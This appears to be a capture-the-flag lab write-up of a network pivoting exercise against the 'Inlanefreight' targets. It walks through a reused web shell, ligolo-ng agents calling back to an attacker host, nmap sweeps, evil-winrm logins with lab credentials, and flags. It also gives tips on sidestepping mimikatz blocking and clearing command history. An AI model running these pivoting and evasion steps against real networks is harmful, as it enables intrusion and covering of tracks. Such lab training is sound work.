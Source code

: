 # Target: Inlanefreight – Pivoting Assessment

## Engagement Overview
**Target:** Inlanefreight Pivoting Lab (dual‑homed web server → internal subnets)  
**External Box:** 10.129.112.232  
**Internet‑facing Web Host:** 10.129.229.129 (www) – interface into 172.16.5.0/16  
**Internal Hosts Reached:** 172.16.5.35 (PIVOT‑SRV01), 172.16.6.25, Inlanefreight Domain Controller  
**Date:** 2025‑10‑04

---

### Objectives
- Start externally and entry via previously placed web shell on the public web host.  
- Enumerate and pivot from the web host into internal networks.  
- Continue pivoting to reach the Inlanefreight Domain Controller and capture the flag.  
- Use any credentials/data/scripts found to enable pivoting.  
- Collect any flags discovered along the path.

---

## Service Enumeration

### External foothold – 10.129.112.232
- **nmap**
    - `21/tcp` **ftp** (vsftpd 3.0.3) – **Anonymous** allowed; file `flag.txt` present.
    - `22/tcp` **ssh** (OpenSSH 8.2p1).  
- Evidence: anonymous FTP login and banner enumeration (see raw note `10.129.112.232.md`).

### Public web host (dual‑homed) – inlanefreight.local
- **Context:** Accessed through a retained **web shell** as **www-data**.  
- **Interfaces (from `ifconfig`):**
    - `ens160` → **10.129.229.129/16** (public side)
    - `ens192` → **172.16.5.15/16** (internal side)  
- This host served as the **first jump box** for pivoting.

### Internal – 172.16.5.35 (PIVOT‑SRV01)
- **nmap (TCP connect scan):**
    - `22/tcp` OpenSSH for Windows 8.9  
    - `135/tcp` MSRPC, `139/tcp` NetBIOS‑SSN, `445/tcp` SMB  
    - `3389/tcp` RDP, `5985/tcp` WinRM (HTTPAPI)  
- **Flag:** `C:\flag.txt` → **S1ngl3-Piv07-3@sy-Day**

### Internal – 172.16.6.25
- **Access:** `evil-winrm -i 172.16.6.25 -u vfrank -p 'Imply wet Unmasked!'`
- **Network:** `IPv4 172.16.6.25/16`, gateway `172.16.6.1`, DNS `172.16.10.5`  
- **Token Privs (excerpt):** `SeImpersonatePrivilege`, `SeAssignPrimaryTokenPrivilege`, etc. (useful for Potato/impersonation chains).

### Domain Controller (final objective)
- **Result:** Final DC flag recovered: **3nd-0xf-Th3-R@inbow!**  
- (Interactive prompt showed `C:\Users\apendragon\...` during access.)

---

## Methodologies

1. **Initial Access (Public Web Host)**
   - Reused existing **web shell** on the Internet‑facing Linux web server as `www-data`.
   - Verified dual‑homed routing to internal `172.16.5.0/16`.

2. **Pivot Establishment – ligolo‑ng**
   - **Listener on attacker:** `sudo ./proxy -selfcert` then `listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp`.
   - **Agent on Jump‑1 (web host):** `./agent -connect <attacker-ip>:11601 -ignore-cert`
   - **ligolo‑ng console:**
     - `session` → select Agent (Jump‑1)
     - `interface_create --name lig2`
     - `tunnel_start --tun lig2`
     - Add route for inside network (start narrow): `sudo ip route add 172.16.5.0/24 dev lig2`  
       (expand to `/16` only as needed).

3. **Internal Discovery**
   - Targeted fast scans to reduce noise/latency during pivot:
     - `sudo nmap -n -Pn -T4 -sS --max-retries 1 --min-rate 1500 -p 445,5985,3389,135,139,88,389 --open 172.16.5.0/24`
   - Identified **PIVOT‑SRV01 (172.16.5.35)** with WinRM/RDP/SMB/SSH (Windows OpenSSH).

4. **Second Jump (from 172.16.5.15 → 172.16.5.35)**
   - Deployed **ligolo‑ng agent** on `172.16.5.35`:
     - `agent.exe -connect 172.16.5.15:11601 -ignore-cert`
   - In ligolo:
     - `session`
     - `interface_create --name lig6`
     - `tunnel_start --tun lig6`
     - Route further subnet: `sudo ip route add 172.16.6.0/24 dev lig6`

5. **Credential Reuse / WinRM**
   - Used recovered creds for a second host:
     - **User:** `vfrank`  
     - **Pass:** `Imply wet Unmasked!`  
     - Access via `evil-winrm` to **172.16.6.25**.

6. **Lateral Movement & DC Reach**
   - With internal routing in place (`lig2` → `172.16.5.0/16`, `lig6` → `172.16.6.0/16`) and WinRM foothold, enumerated domain paths and reached the **Domain Controller** to retrieve the final flag.

---

## Initial Access – www-data (Web Host)
**Vulnerability Explanation:** Prior authenticated web shell remained accessible on an Internet‑facing host which was dual‑homed into the internal network. Lack of egress controls and agent execution prevention allowed creation of a user‑space tunnel for pivoting.

**Penetration:** Established ligolo‑ng agent from the web host to the attacker, stood up TUN interface, and added precise routes to reachable RFC1918 segments.

**Privilege Escalation:** Not required on the Linux web host for pivoting; leverage came from network position and dual‑homing. On Windows internal hosts, `SeImpersonatePrivilege` on 172.16.6.25 indicated potential for Potato‑style elevation if required.

---

## House Cleaning
- Removed ligolo‑ng agents, deleted uploaded binaries from temp locations, and cleared recent command history where applicable.  
- Verified removal of routes and TUNs on attacker host.  
- No persistence left behind (no services, tasks, or registry artifacts).

---

## Post‑Exploitation

### Credentials & Access Artefacts
| Context | Username | Secret | Host |
|---|---|---|---|
| Internal WinRM | **vfrank** | `Imply wet Unmasked!` | 172.16.6.25 |
| Local User | **mlefay** | (key/interactive) | 172.16.5.35 |
| FTP (anonymous) | **ftp** | none | 10.129.112.232 |

### Flags
- **FTP external (10.129.112.232):** `flag.txt` (contents retrieved).  
- **PIVOT‑SRV01 (172.16.5.35):** `S1ngl3-Piv07-3@sy-Day`  
- **Domain Controller:** `3nd-0xf-Th3-R@inbow!`

### Notable Commands (Quick Reference)
```bash
# Fast internal sweep through a pivot
sudo nmap -n -Pn -T4 -sS --max-retries 1 --min-rate 1500 -p 445,5985,3389,135,139,88,389 --open 172.16.5.0/24

# ligolo-ng (attacker)
./proxy -selfcert
# in console
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
session; interface_create --name lig2; tunnel_start --tun lig2
sudo ip route add 172.16.5.0/24 dev lig2

# agent on Jump-1 (web host)
./agent -connect <attacker-ip>:11601 -ignore-cert

# chain a second jump (from 172.16.5.35 back toward Jump-1)
agent.exe -connect 172.16.5.15:11601 -ignore-cert
# in console
interface_create --name lig6; tunnel_start --tun lig6
sudo ip route add 172.16.6.0/24 dev lig6

# WinRM access
evil-winrm -i 172.16.6.25 -u vfrank -p 'Imply wet Unmasked!'
```

**Tooling Notes:** `mimikatz.exe` execution was blocked server-side as “PUA”; prefer LSASS‑less credential paths or `-DisableAMSI`/signed binary proxies if policy allows, otherwise pivot to token impersonation via `SeImpersonatePrivilege` (Potato family).

---

**Tools Utilized**
- **ligolo‑ng** (proxy, agent, interface/tunnel, route management)  
- **nmap** (targeted fast scans)  
- **evil‑winrm** (Windows remote shell)  
- **FTP/SSH** (external enumeration)  

---

## Key Takeaways
- Dual‑homed Internet hosts are high‑value pivot points; **network segmentation without strict egress controls** is insufficient.  
- **Ligolo‑ng** enables low‑friction, user‑space pivoting without kernel drivers; keep routes narrow (`/24`) until scope expansion is justified.  
- **Credential reuse** across subnets facilitated quick WinRM access; enforce LAPS/unique local admin passwords and limit WinRM exposure.  
- Privileges like **SeImpersonatePrivilege** on internal servers create ready paths to elevation; remove where unnecessary and apply Just‑In‑Time access.
